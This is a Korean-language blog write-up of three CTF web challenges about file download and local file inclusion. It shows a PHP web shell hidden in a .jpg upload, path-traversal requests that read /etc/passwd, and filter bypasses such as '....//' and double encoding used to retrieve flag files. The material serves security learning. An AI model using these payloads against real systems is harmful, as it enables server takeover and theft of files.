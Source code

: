 ```yaml
---
title: "File Download & LFI"
date: 2025-07-25
layout: single
toc: true
toc_label: "File Download & LFI"
toc_icon: "book"
toc_sticky: true
tags: [web, file download, lfi, hacking]
header:
  teaser: /assets/images/file-download.png
---
```


# 개요

이 페이지는 File Download 기능과 LFI(Local File Inclusion) 취약점을 활용한 CTF 문제 풀이 기록입니다.

실습에서는 파일 다운로드 기능의 파라미터 조작을 통해 서버 내 임의 파일을 열람하거나, LFI를 통해 PHP 코드 실행 흐름으로 확장하는 과정을 다룹니다.

---

# 문제 풀이 정리

## Web Shell

![글쓰기](/assets/screenshots/file-download-lfi/web_shell_create.png)

대상 웹 애플리케이션에는 게시글 작성 기능이 있으며, 이 중 파일 업로드 입력란이 존재한다.

![업로드 실패](/assets/screenshots/file-download-lfi/web_shell_upload_fail.png)

위와 같이 `.php` 확장자를 가진 파일을 업로드할 경우, **업로드가 허용되지 않는 파일 형식입니다.** 라는 메시지가 출력되며 업로드가 차단된다.

후에 Content-Type 변경, 다중 확장자 우회, MIME 타입 조작 등 다양한 우회 기법을 시도하였으나, 모두 서버 측 필터링에 의해 차단되었다.

![업로드 성공](/assets/screenshots/file-download-lfi/web_shell_upload.png)

서버가 `.php` 확장자의 파일 업로드를 차단하고 있기 때문에, 우회 방식으로 `.jpg` 확장자의 파일에 PHP 코드를 삽입한 뒤 업로드하였다.

**페이로드:**
```php
<?php echo system($_GET['cmd']); ?>
```

이후 **LFI 취약점**을 통해 해당 파일이 `include` 되도록 유도함으로써, 서버가 이를 PHP로 처리하게 만들고 코드 실행을 시도한다.

![의심 발견](/assets/screenshots/file-download-lfi/web_shell_parameter.png)

Burp Suite를 활용하여 웹 여러 요청을 확인한 결과,

`theme=modern.php`라는 값이 클라이언트 → 서버로 전송되며, 응답에서도 해당 테마 이름이 다시 응답에서도 해당 테마 이름이 다시 `Set-Cookie` 에 포함되는 구조를 확인하였다.

이로 인해 서버 측에서 `theme` 파라미터를 기반으로 동적으로 PHP 파일을 `include` 하거나 로딩할 가능성이 있는 것으로 보여져,
업로드한 파일에 대한 경로를 지정함으로써 **LFI 공격**이 가능한지 테스트를 진행하였다.

![/etc/passwd](/assets/screenshots/file-download-lfi/web_shell_passwd.png)

`theme` 파라미터에 `../../../../etc/passwd` 값을 삽입한 결과, 응답 본문에 리눅스 시스템의 `/etc/passwd` 파일 내용이 출력되었다.

이를 활용하여 업로드된 웹쉘 파일(`shell.jpg`)의 경로를 LFI 지점에 삽입하여 포함시키는 방식으로 코드 실행을 시도한다.

![공격 성공](/assets/screenshots/file-download-lfi/web_shell_success.png)

`page=mypage&cmd=ls` 파라미터를 통해 쉘 명령이 정상적으로 실행되었으며, 서버 내부의 디렉토리 및 파일 목록이 출력되는 것을 확인할 수 있었다.

**이제 시스템 내에 저장된 플래그 파일의 위치를 찾기 위해 다음 명령어를 실행하였다:**

```bash
find / -name "flag.txt" 2>/dev/null
```

`flag.txt` 파일의 위치를 확인한 뒤, `cat` 명령어를 통해 해당 파일의 내용을 출력하였다.

![플래그 획득](/assets/screenshots/file-download-lfi/web_shell_flag.png)

이렇게 최종적으로 플래그를 획득 하였다.

---

## Get Flag File

![글 쓰기](/assets/screenshots/file-download-lfi/get_file1_create.png)

이번에도 파일 업로드 기능이 존재하나, `.php`를 포함한 모든 스크립트 계열 확장자에 대해 업로드가 차단되어 있으며, 

확장자 우회 기법(예: Content-Type 변경, 다중 확장자 우회, MIME 타입 조작 등) 역시 모두 필터링되는 강력한 보안 정책이 적용되어 있는 상태이다.

![다운로드 경로](/assets/screenshots/file-download-lfi/get_file1_path.png)

Burp Suite를 이용해 업로드된 게시글의 응답 데이터를 분석한 결과, HTML 본문 내에 첨부파일의 실제 다운로드 경로(`index.php?page=download&filePath=...`)가 명확하게 노출되어 있는 것을 확인하였다.

위 경로를 이용하여 접속을 한 후 Burp Suite로 분석을 해보았다.

![다운로드 경로 2](/assets/screenshots/file-download-lfi/get_file1_path2.png)

Burp Suite를 통해 `download` 파라미터에 업로드된 파일 경로(`/var/www/html/uploads/4_shell.jpg`)를 직접 요청한 결과, HTTP 응답 본문에 파일 내부에 삽입한 PHP 코드(`<?php echo system($_GET['cmd']); ?>`)가 그대로 포함되어 있는 것을 확인하였다.

이로 인해 서버가 해당 파일을 PHP로 실행하지 않고 단순 **텍스트 파일로 처리하여 반환**하고 있다는 점을 알 수 있었으며, 이는 곧 파일 내의 임의 코드 노출이 가능하다는 것을 의미한다.

첫 번째 시도로 `/etc/passwd` 경로를 포함시켜 시스템 내 파일 접근 가능성을 검증하였다.

**Burp Suite를 이용하여 다음과 같은 요청을 전송하였다:**

```yaml
GET /index.php?page=download&filePath=../../../../etc/passwd
```

![/etc/passwd](/assets/screenshots/file-download-lfi/get_file1_passwd.png)

그 결과, 서버는 `HTTP 200 OK` 응답과 함께 `/etc/passwd` 파일의 내용을 반환하였다. 

이는 서버 측에서 사용자 입력에 대해 별도의 경로 제한이나 필터링 없이 파일을 읽고 응답으로 전달하고 있음을 의미하며, **명확한 LFI 취약점(Local File Inclusion)** 으로 판단된다.

앞선 LFI 취약점을 활용해, 이번에는 웹 애플리케이션 루트 디렉터리에 존재하는 `flag.txt` 파일을 직접 열람하여 내부에 포함된 플래그 값을 확인하고자 하였다.

![플래그 획득](/assets/screenshots/file-download-lfi/get_file1_flag.png)

이렇게 웹 애플리케이션 내부에 존재하던 `flag.txt` 파일에 접근하고, 최종적으로 플래그 값을 성공적으로 획득하였다.

---

## Get Flag File 2

이번 문제 역시 이전 문제와 유사하게, 다운로드 기능을 기반으로 한 LFI 취약점(Local File Inclusion) 취약점을 중심으로 구성되어 있다.

![다운로드 경로](/assets/screenshots/file-download-lfi/get_file2_path.png)

Burp Suite를 통해 응답 본문을 분석한 결과, 이전 문제와 똑같이 HTML 본문 내에 첨부파일의 실제 다운로드 경로(`index.php?page=download&filePath=...`)가 명확하게 노출되어 있었고.

![공격 성공](/assets/screenshots/file-download-lfi/get_file2_success.png)

파일이 다운로드 되는 파일 경로를 통해 Burp Suite로 분석 결과, 해당 파일의 응답 본문에는 삽입한 PHP 코드(`<?php echo system($_GET['cmd']); ?>`)가 그대로 포함되어 있었다.

이를 통해 서버가 해당 파일을 실행하지 않고 단순히 텍스트 파일로 반환하고 있음을 확인하였으며, 이를 기반으로 `/etc/passwd`와 같은 시스템 파일에 대한 접근이 가능한지 여부를 테스트하였다.

![/etc/passwd](/assets/screenshots/file-download-lfi/get_file2_passwd.png)

기본적인 `../` 상대 경로를 통한 디렉터리 상위 이동은 서버 측 필터링으로 인해 차단되었다.

이에 따라 다양한 URL 인코딩 기반 우회 기법을 적용하여 경로 우회 가능성을 테스트하였다.

**테스트한 우회 기법은 다음과 같다:**
 - `%252e` → `%2e`로 디코딩되는 Double Encoding
 - `....//` → 중첩 경로를 통한 우회
 - `%2e%2e%2f`, `..%2f..%2f..%2fetc/passwd` 등

이 중, `....//` 방식이 서버에서 유효하게 처리되어, 다음과 같은 요청으로 LFI에 성공하였다.

앞서 확인한 URL 인코딩 기반의 디렉터리 우회 기법(`....//`)을 활용하여, 웹 서버 루트 디렉터리에 존재하는 `flag.txt` 파일에 대한 직접 접근을 시도하였다.

![플래그 획득](/assets/screenshots/file-download-lfi/get_file2_flag.png)
 
최종적으로 `flag.txt` 파일 내 플래그를 획득하였다.
